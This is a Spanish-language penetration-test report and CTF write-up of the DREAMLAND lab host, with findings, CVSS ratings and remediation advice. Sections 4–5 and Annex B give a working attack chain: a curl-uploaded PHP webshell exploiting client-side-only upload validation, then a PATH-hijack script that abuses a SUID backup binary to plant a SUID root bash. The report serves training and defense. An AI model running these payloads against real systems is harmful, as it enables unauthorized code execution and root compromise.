# Auditoría de seguridad — Laboratorio DREAMLAND

| Campo | Valor |
|---|---|
| Objetivo | `172.17.0.2` |
| Fecha | 19 de noviembre de 2026 |
| Analista | chifay|
| Alcance | Servicios TCP expuestos y aplicaciones web |
| Enfoque | Auditoría externa, sin credenciales iniciales |
| Resultado | Compromiso total del host: RCE como `www-data` y escalada a `root` |
| Severidad global | **Crítica** |

---

## 1. Resumen ejecutivo

Durante la auditoría se identificaron dos aplicaciones web: un WordPress en el puerto `80` y una instancia de Kirby en el puerto `8080`. La enumeración de contenido en Kirby permitió descubrir `/upload.php`, una página de actualización de avatar que validaba el tipo de archivo **únicamente en el navegador**: el formulario usaba el atributo HTML `accept` y una comprobación JavaScript de la extensión, pero el servidor no aplicaba ninguna validación equivalente.

Aprovechando esa debilidad se subió una webshell PHP a `/uploads/shell.php` y se obtuvo ejecución de comandos como el usuario `www-data`. La enumeración local reveló que `/var/www/user.txt` era propiedad de `root` y no era legible por el usuario web, y que existía un binario SUID propiedad de `root`, `/usr/local/bin/backup_kirby`. El análisis de cadenas del binario mostró que ejecutaba:

```text
tar -cf /tmp/backup.tar /var/www/kirby/* 2>/dev/null
```

La llamada se realizaba mediante `system()` y utilizaba el nombre relativo `tar`, por lo que la resolución dependía del `PATH` heredado. Se creó un `tar` malicioso en `/tmp/.pwn`, se ejecutó el binario SUID con ese directorio al principio del `PATH` y se obtuvo una shell con privilegios efectivos de `root`. Con ello se recuperaron la flag de usuario y la flag de root.

### Flags obtenidas

| Flag | Valor |
|---|---|
| Usuario | `user{REDACTED}` |
| Root | `root{REDACTED}` |

### Causa raíz

La cadena de compromiso se apoya en dos fallos encadenados:

1. **Validación exclusivamente client-side** en la carga de archivos, que permite subir y ejecutar código PHP en el servidor web.
2. **Binario SUID con ejecución de un comando externo por ruta relativa**, que permite secuestrar el `PATH` y ejecutar código arbitrario con privilegios de `root`.

---

## 2. Alcance y metodología

La prueba se centró en la superficie expuesta del host `172.17.0.2`. Se realizaron las siguientes actividades:

- Descubrimiento de puertos y servicios.
- Identificación de tecnologías web y versiones.
- Enumeración de contenido y archivos.
- Análisis de formularios y flujos de carga.
- Explotación controlada de la carga de archivos.
- Enumeración local y escalada de privilegios.
- Documentación de evidencias y recomendaciones.

Herramientas utilizadas: `nmap`, `whatweb`, `ffuf`, `curl`, `wpscan`, `smbclient` y utilidades estándar del sistema. Las capturas incluidas en este informe corresponden a la terminal de auditoría y muestran los comandos ejecutados y sus salidas reales.

Las pruebas se realizaron en un entorno de laboratorio autorizado. No se ejecutaron ataques de denegación de servicio ni se buscó afectar la disponibilidad de los servicios.

---

## 3. Reconocimiento

### 3.1 Puertos y servicios

El escaneo completo de puertos TCP identificó seis servicios expuestos:

| Puerto | Servicio | Versión / observación |
|---:|---|---|
| 21 | FTP | vsftpd 3.0.3 |
| 22 | SSH | OpenSSH 9.2p1 Debian 2+deb12u10 |
| 80 | HTTP | Apache 2.4.67 (Debian) — WordPress 7.0 |
| 139 | NetBIOS | Samba smbd 4 |
| 445 | SMB | Samba smbd 4 |
| 8080 | HTTP | Apache 2.4.67 (Debian) — Kirby |



*Figura 1. Descubrimiento de puertos con `nmap -p-`.*



*Figura 2. Identificación de versiones con `nmap -sV`.*

### 3.2 Aplicaciones web

El fingerprinting confirmó dos aplicaciones:

- **Puerto 80:** WordPress 7.0, sitio “Dreamland Landscapes”.
- **Puerto 8080:** Kirby, sitio “Mægazine”, construido sobre el starterkit oficial (`getkirby/starterkit`).

El archivo `composer.json` estaba accesible públicamente y revelaba la dependencia `getkirby/cms` con la restricción `^5.2`. El panel de administración se encontraba en `/panel` y redirigía al inicio de sesión; la versión observada en el panel era **Kirby 5.4.3**.



*Figura 3. Identificación de WordPress y Kirby, y exposición de metadatos de Composer.*

### 3.3 Enumeración de contenido

La enumeración de archivos y directorios sobre el puerto `8080` reveló una página no enlazada desde la navegación principal:

```text
/upload.php
```

También se identificaron `/uploads/` con listado de directorios habilitado, `/panel/` y el archivo `composer.json`.



*Figura 4. Descubrimiento de `/upload.php` mediante fuzzing de archivos.*

### 3.4 Otros servicios y aplicación WordPress

- **WordPress:** se enumeró el usuario `dream_admin`. No se identificaron plugins ni temas con vectores explotables y no se obtuvieron credenciales válidas. No fue la vía de compromiso.
- **FTP:** requería autenticación; no se identificó acceso anónimo.
- **SMB:** no se identificaron recursos compartidos accesibles con la información disponible. El escaneo mostró además que la firma SMB estaba habilitada pero no era obligatoria.
- **SSH:** exponía autenticación por contraseña, pero no se utilizó como vector inicial.

---

## 4. Carga de archivos sin validación en el servidor

### 4.1 Descripción de la vulnerabilidad

La página `/upload.php` permitía actualizar el avatar de un perfil. El formulario incluía:

- El atributo `accept="image/jpeg, image/png"` en el campo de archivo.
- Una validación JavaScript que comprobaba que la extensión fuese `jpg`, `jpeg` o `png` antes de enviar el formulario.

Ambas comprobaciones se ejecutan en el cliente. El servidor recibía el archivo y lo almacenaba en `/uploads/` conservando el nombre y la extensión originales, sin verificar el tipo real, la extensión ni el contenido. Además, el directorio de carga estaba servido por Apache con soporte PHP, por lo que un archivo `.php` podía ejecutarse.

El formulario incluía un token CSRF, pero este no impedía la carga de tipos de archivo no permitidos: el token protege la sesión, no la naturaleza del archivo.



*Figura 5. El formulario y la comprobación JavaScript se ejecutan en el cliente.*

### 4.2 Carga de la webshell

Se obtuvo un token válido, se creó una webshell PHP mínima y se envió con `curl`, ignorando las restricciones del navegador:

```bash
B=http://172.17.0.2:8080
TOKEN=$(curl -s -c /tmp/ck $B/upload.php | grep -oP 'name="token" value="\K[^"]+')
printf '<?php system($_GET["cmd"]); ?>' > shell.php
curl -s -b /tmp/ck \
  -F "token=$TOKEN" \
  -F "avatar=@shell.php;type=application/x-php" \
  $B/upload.php | head -1
```

La respuesta del servidor confirmó la subida y la ruta pública del archivo:

```html
<h3>File uploaded successfully!</h3><p>Path: <a href='/uploads/shell.php'>View File</a></p>
```



*Figura 6. El servidor acepta un archivo PHP y lo publica en `/uploads/shell.php`.*

### 4.3 Ejecución de comandos

La webshell se invocó con el parámetro `cmd`:

```bash
curl -s -G http://172.17.0.2:8080/uploads/shell.php \
  --data-urlencode 'cmd=id; hostname; uname -a; pwd'
```

Resultado:

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
dreamland
Linux dreamland 7.2.15+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 7.2.15-1kali1 (2026-11-03) x86_64 GNU/Linux
/var/www/kirby/uploads
```



*Figura 7. Ejecución remota de comandos en el contexto de `www-data`.*

El acceso inicial quedó confirmado: un usuario web sin privilegios, con capacidad de ejecutar comandos en el host.

---

## 5. Escalada de privilegios

### 5.1 Enumeración local

La primera revisión de permisos mostró que la flag de usuario estaba en `/var/www/user.txt`, con propietario `root` y permisos `0400`, por lo que `www-data` no podía leerla directamente. En la misma ruta se identificó un binario con el bit SUID activo:

```text
-rwsr-xr-x 1 root root 16064 /usr/local/bin/backup_kirby
-r-------- 1 root root    26 /var/www/user.txt
```



*Figura 8. `user.txt` es solo legible por root; `backup_kirby` tiene SUID.*

La búsqueda de binarios SUID confirmó que `backup_kirby` era el candidato más relevante:



*Figura 9. Enumeración de binarios con el bit SUID.*

### 5.2 Análisis del binario `backup_kirby`

El análisis de cadenas del binario reveló la llamada al comando de backup y el uso de `system()`:

```bash
strings /usr/local/bin/backup_kirby | grep -E "tar|system|setuid"
```

```text
setuid
system
tar -cf /tmp/backup.tar /var/www/kirby/* 2>/dev/null
```



*Figura 10. El binario ejecuta `tar` mediante `system()` y conserva el bit SUID.*

El binario es propietario de `root` y tiene el bit SUID activo. Al ejecutarse, llama a `system("tar -cf ...")`; `system()` invoca `/bin/sh -c` y resuelve `tar` mediante el `PATH` heredado del proceso. Como el binario conserva los privilegios efectivos de `root`, el comando `tar` se ejecuta con esos privilegios. La combinación de:

- nombre de comando relativo (`tar` en lugar de `/bin/tar`),
- `PATH` controlable por el usuario que ejecuta el binario,
- y ejecución con privilegios de `root`,

permite un secuestro de `PATH` clásico (CWE-426 / CWE-427).

### 5.3 Secuestro de PATH y flag de usuario

Se creó un script `tar` malicioso en `/tmp/.pwn` que se ejecutaría en lugar del `tar` legítimo. El script copia la flag de usuario a una ruta legible y crea una copia de `/bin/bash` con el bit SUID:

```bash
# Contenido de hijack.sh
mkdir -p /tmp/.pwn
cat > /tmp/.pwn/tar <<'TAR'
#!/bin/bash
rm -f /tmp/user_flag.txt /tmp/rootbash
cp /var/www/user.txt /tmp/user_flag.txt
chmod 644 /tmp/user_flag.txt
cp /bin/bash /tmp/rootbash
chmod 4755 /tmp/rootbash
TAR
chmod +x /tmp/.pwn/tar
PATH=/tmp/.pwn:$PATH /usr/local/bin/backup_kirby
cat /tmp/user_flag.txt
```



*Figura 11. Contenido del script `hijack.sh` utilizado para el secuestro de `PATH`.*

El script se envió a través de la webshell:

```bash
curl -s -G http://172.17.0.2:8080/uploads/shell.php \
  --data-urlencode cmd@hijack.sh
```

Resultado:

```text
user{REDACTED}
```



*Figura 12. La ejecución del binario SUID permite leer la flag de usuario.*

La flag de usuario estaba protegida contra lectura por `www-data`; se recuperó aprovechando el contexto `root` que otorga el binario SUID. En la misma ejecución se preparó una shell SUID para la siguiente fase.

### 5.4 Obtención de root

La shell SUID creada por el script se ejecutó con la opción `-p`, que permite conservar los privilegios efectivos:

```bash
/tmp/rootbash -p -c 'id; cat /root/flag.txt'
```

Resultado:

```text
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
root{REDACTED}
```



*Figura 13. Shell con `euid=0(root)` y lectura de `/root/flag.txt`.*

La comprobación final muestra ambas flags y el contexto efectivo de root:



*Figura 14. Evidencia consolidada de las flags de usuario y root.*

---

## 6. Hallazgos

| ID | Hallazgo | Severidad | Estado |
|---|---|---|---|
| H-01 | Carga de archivos sin validación en servidor en `/upload.php`; permite subir y ejecutar PHP | **Crítica** | Explotado |
| H-02 | Binario SUID `/usr/local/bin/backup_kirby` ejecuta `tar` por ruta relativa; permite PATH hijacking y root | **Alta** | Explotado |
| H-03 | Kirby 5.4.3 desactualizado, con múltiples avisos de seguridad publicados | **Alta** | Confirmado |
| H-04 | Instalador del panel Kirby alcanzable mediante manipulación de la cabecera `Host`; permite crear una cuenta administrativa | **Crítica** | Validado |
| H-05 | Exposición de `composer.json` y `README.md` en la raíz web | Baja | Confirmado |
| H-06 | Listado de directorios habilitado en `/uploads/` | Baja | Confirmado |
| H-07 | Enumeración de usuarios en WordPress (`dream_admin`) | Baja | Confirmado |
| H-08 | Firma SMB habilitada pero no obligatoria | Baja | Confirmado |

### 6.1 Detalle de los hallazgos adicionales

**H-03 — Kirby desactualizado.** El panel mostraba la versión 5.4.3 y advertía de una actualización de seguridad a 5.6.4. Entre los avisos visibles se encontraban referencias a problemas críticos y de alta severidad, incluidos los identificadores `GHSA-whxw-24jc-cwmv` y `GHSA-67mx-6wf2-92xp`. Mantener el CMS actualizado reduce la superficie de ataque y evita vulnerabilidades conocidas.

**H-04 — Instalador del panel.** Se comprobó que el flujo de instalación del panel podía alcanzarse manipulando la cabecera `Host` (`Host: localhost`) y que permitía crear una cuenta con rol administrador. Este hallazgo no fue necesario para la cadena principal, pero constituye una exposición grave: un instalador accesible permite tomar el control del CMS sin credenciales previas. La recomendación es restringir el acceso al panel y al instalador por red, exigir autenticación y validar estrictamente las cabeceras `Host`, `Forwarded`, `X-Forwarded-Host` y similares.

**H-05 y H-06 — Exposición de metadatos y listado de directorios.** `composer.json` revelaba la dependencia y la versión del CMS, y `/uploads/` permitía listar los archivos subidos, incluida la webshell. Ambos elementos facilitan el reconocimiento y la explotación.

**H-07 y H-08 — Endurecimiento general.** La enumeración de usuarios en WordPress facilita ataques de fuerza bruta o password spraying. La firma SMB no obligatoria permite ciertos ataques de relay en redes mal segmentadas. Son hallazgos de menor severidad, pero deben corregirse dentro de un programa de endurecimiento.

---

## 7. Impacto

La combinación de H-01 y H-02 permite a un atacante no autenticado:

- Ejecutar comandos arbitrarios en el servidor web.
- Leer y modificar archivos de la aplicación.
- Escalar a `root` y comprometer completamente el host.
- Acceder a información sensible y a las flags del laboratorio.
- Establecer persistencia (por ejemplo, mediante una shell SUID) y potencialmente moverse lateralmente hacia otros sistemas de la red.

La carga de archivos es accesible sin autenticación y el binario SUID está disponible para el usuario web, por lo que la cadena es directa y fiable.

### Valoración CVSS

| Fase | Vector | Puntuación |
|---|---|---:|
| RCE inicial (H-01) | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` | 9.8 (Crítica) |
| Escalada local (H-02) | `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` | 7.8 (Alta) |
| Cadena completa | RCE remoto + root local | **Crítica** |

---

## 8. Recomendaciones

### 8.1 Corrección inmediata

1. **Validar la carga en el servidor.** No confiar en `accept` ni en JavaScript. Comprobar extensión y tipo MIME real, verificar que la imagen sea válida (por ejemplo, con `finfo` y `getimagesize`), re-generar la imagen y asignar un nombre aleatorio.
2. **Deshabilitar la ejecución de PHP en el directorio de cargas.** Configurar Apache para que `/uploads/` no ejecute scripts (por ejemplo, `php_admin_flag engine off` o `RemoveHandler .php`), y almacenar las cargas fuera del webroot cuando sea posible.
3. **Eliminar o corregir `upload.php`.** Si la funcionalidad no es imprescindible, retirarla. Si se mantiene, integrarla en el panel autenticado de Kirby y aplicar las validaciones anteriores.
4. **Eliminar el bit SUID de `backup_kirby`.** Ejecutar el backup con un usuario dedicado y sin privilegios. Si debe ejecutarse como root, usar una ruta absoluta (`/bin/tar`), sanitizar el entorno (`PATH` controlado, `clearenv`) y evitar `system()`; utilizar `execve` o `posix_spawn` con argumentos controlados.
5. **Actualizar Kirby** a la última versión estable (el panel indicaba 5.6.4 o superior) y revisar los avisos de seguridad aplicables.
6. **Restringir el panel y el instalador.** Limitar `/panel` por IP/VPN, exigir autenticación fuerte y deshabilitar el instalador una vez completada la puesta en marcha. Validar las cabeceras de host y proxy.

### 8.2 Endurecimiento a corto plazo

- Eliminar `composer.json`, `README.md` y otros metadatos innecesarios del webroot.
- Deshabilitar el listado de directorios en `/uploads/` y en cualquier otro directorio.
- Aplicar el principio de mínimo privilegio al usuario `www-data`.
- Revisar permisos de archivos y directorios; evitar que el usuario web pueda escribir en rutas ejecutables.
- Exigir firma SMB y deshabilitar versiones antiguas del protocolo.
- Limitar la enumeración de usuarios en WordPress y aplicar autenticación multifactor a las cuentas administrativas.
- Monitorizar la creación de archivos en directorios de carga y la ejecución de binarios SUID.

### 8.3 Mejora continua

- Incorporar revisión de código seguro y pruebas de seguridad en el ciclo de desarrollo.
- Gestionar dependencias y vulnerabilidades de forma continua.
- Implementar un WAF con reglas para cargas de archivos y ejecución de scripts.
- Segmentar la red y aplicar defensa en profundidad.
- Mantener copias de seguridad y un plan de respuesta a incidentes.

---

## 9. Conclusión

La auditoría permitió comprometer completamente el host `172.17.0.2` mediante una cadena de dos vulnerabilidades: una validación exclusivamente client-side en la carga de avatares y un binario SUID que ejecutaba `tar` por ruta relativa. La primera proporcionó ejecución remota de comandos como `www-data`; la segunda permitió el secuestro de `PATH` y la escalada a `root`.

Se obtuvieron las dos flags del laboratorio:

- `user{REDACTED}`
- `root{REDACTED}`

El caso refuerza una lección conocida: la validación en el navegador no es un control de seguridad y los binarios SUID deben tratar el entorno y las rutas de los comandos como datos no confiables. La corrección de ambos puntos, junto con la actualización de Kirby y la restricción del panel, eliminaría la cadena de compromiso observada.

---

## 10. Anexos

### A. Material publicado

| Archivo | Contenido |
|---|---|
| `report/DREAMLAND_writeup.md` | Informe completo en Markdown |
| `screenshots/` | Capturas de terminal de la cadena completa |

### B. Comandos clave

```bash
# Descubrimiento
nmap -p- --min-rate 3000 -T4 172.17.0.2 -oN allports.txt
nmap -sV --version-light -p21,22,80,139,445,8080 172.17.0.2
WL=/usr/share/seclists/Discovery/Web-Content/raft-small-files.txt
ffuf -u http://172.17.0.2:8080/FUZZ -w $WL -mc 200,302 -s

# Carga de la webshell
B=http://172.17.0.2:8080
TOKEN=$(curl -s -c /tmp/ck $B/upload.php | grep -oP 'name="token" value="\K[^"]+')
printf '<?php system($_GET["cmd"]); ?>' > shell.php
curl -s -b /tmp/ck -F "token=$TOKEN" -F "avatar=@shell.php;type=application/x-php" $B/upload.php

# Ejecución remota
curl -s -G $B/uploads/shell.php --data-urlencode 'cmd=id; hostname; uname -a; pwd'

# Enumeración local
curl -s -G $B/uploads/shell.php --data-urlencode 'cmd=ls -l /var/www/user.txt /usr/local/bin/backup_kirby'
curl -s -G $B/uploads/shell.php --data-urlencode 'cmd=find / -perm -4000 -type f 2>/dev/null'
curl -s -G $B/uploads/shell.php --data-urlencode 'cmd=strings /usr/local/bin/backup_kirby | grep -E "tar|system|setuid"'

# PATH hijacking
curl -s -G $B/uploads/shell.php --data-urlencode cmd@hijack.sh
/tmp/rootbash -p -c 'id; cat /root/flag.txt'
```

### C. Flags

```text
user{REDACTED}
root{REDACTED}
```
